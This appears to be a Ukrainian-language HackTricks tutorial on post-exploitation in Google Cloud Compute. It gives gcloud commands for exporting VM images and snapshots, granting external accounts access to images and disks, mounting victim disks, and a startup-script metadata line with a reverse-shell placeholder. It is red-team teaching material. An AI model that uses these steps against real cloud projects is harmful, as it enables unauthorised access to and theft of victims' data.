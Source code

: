 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Для отримання додаткової інформації про Compute та VPC (мережі) перегляньте:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Експорт та перевірка зображень локально

Це дозволить зловмиснику **отримати доступ до даних, що містяться в уже існуючих зображеннях** або **створити нові зображення працюючих ВМ** та отримати доступ до їхніх даних без доступу до працюючої ВМ.

Можливо експортувати зображення ВМ до бакету, а потім завантажити його та змонтувати локально за допомогою команди:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Перед виконанням цієї дії зловмисник може потребувати привілеїв над сховищем та, безумовно, **привілеїв над cloudbuild**, оскільки це **сервіс**, який буде запитано для виконання експорту\
Більше того, для цього кодування SA та SA обчислень потребують привілейованих дозволів.\
SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` потребує:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

А SA `<project-id>-compute@developer.gserviceaccount.com` потребує:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Експорт та перевірка знімків та дисків локально

Неможливо безпосередньо експортувати знімки та диски, але можливо **перетворити знімок на диск, диск на образ** і, слідуючи **попередньому розділу**, експортувати цей образ для перевірки його локально

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Інспекція зображення, створюючи VM

З метою доступу до **даних, збережених у зображенні** або всередині **працюючої VM**, з якої зловмисник **створив зображення,** можливо надати зовнішньому обліковому запису доступ до зображення:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
і потім створити нову VM з цього:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Якщо ви не могли надати доступ до вашого зовнішнього облікового запису через образ, ви могли б запустити VM, використовуючи цей образ у проекті жертви, і **змусити метадані виконати зворотне з'єднання** для доступу до образу, додавши параметр:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

З метою доступу до **даних, збережених на диску або знімку, ви можете перетворити знімок на диск, диск на образ і слідувати попереднім крокам.**

Або ви можете **надати зовнішньому обліковому запису доступ** до диска (якщо початковою точкою є знімок, надайте доступ до знімка або створіть диск з нього):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Прикріпіть диск** до екземпляра:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Монтуйте диск всередині VM:

1.  **SSH до VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Визначте диск**: Після входу до VM визначте новий диск, перерахувавши пристрої дисків. Зазвичай ви можете знайти його як `/dev/sdb`, `/dev/sdc` тощо.
3. **Форматування та монтування диска** (якщо це новий або сирий диск):
*   Створіть точку монтування:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Замонтуйте диск:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Якщо ви **не можете надати доступ до зовнішнього проекту** до знімка або диска, вам, можливо, потрібно буде **виконати ці дії всередині екземпляра в тому ж проекті, що й знімок/диск**.

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
